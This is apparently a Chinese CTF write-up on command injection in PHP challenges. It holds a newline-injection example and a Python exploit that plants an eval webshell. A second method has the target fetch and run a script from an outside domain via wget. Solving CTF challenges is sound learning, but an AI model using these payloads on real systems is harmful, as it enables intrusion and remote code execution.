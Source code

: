 ### 任意命令writeup
---------  
linux 上任意命令执行,一般会用到下面几个字符 
```bash 
  `   |   ||   &   &&   .   ;   -   <>   $    %0a 
```
###  [exec1](./exec1.php) 
用 %0a 来执行命令,只能适用于linux , 127.0.0.1%0awhoami 
---------

### [exec2](./exec2.php) 当可输入的字符不够长时,这里包含分割符一共可输入13个字符 

1. 最短的shell是  ```<?`$_GET[c]` ```; 一共十四个字符 
所以,直接写shell,长度肯定是不够的
所以思路是先写命令到一个文件中,然后用 sh filename  执行脚本,获取shell  

```python 
#!/usr/bin/python 
#conding: -*-utf-8-*-   

# exp.py    

import requests as req 

url = "http://localhost/ctf/exec2.php"
for i in "echo '<?php @eval($_POST[1]);?>' > shell.php ":
    data = {"ip":"0.0.0.0;echo -n \\"+i+">>1"}
    res = req.post(url,data=data)
    # print data['ip']
    # print res.text 
print "[*] bash shell upload successful!"

data={"ip":"0.0.0.0;bash 1"}
res=req.post(url,data=data)

shell="http://127.0.0.1/ctf/shell.php"

res=req.get(shell)
if  res.status_code == 200:
    print "[*] get shell successful"

```
获取shell在shell.php 

2.  第二种获得shell的方法  

前提是你需要有一个比较短的域名,然后在服务器的根目录下写一个302跳转 

```php
 // index.php 

 <?php header("Location: ./1.sh") ?>
```

```bash
#1.sh 
echo '<?php @eval($_POST[1]);?>' > shell.php 
```
这两个文件放在同一个目录下,执行

```bash
ip=0.0.0.0;wget i.com 
ip=0.0.0.0;sh index.html  #刚好21个字符
```
然后就获取一个shell  
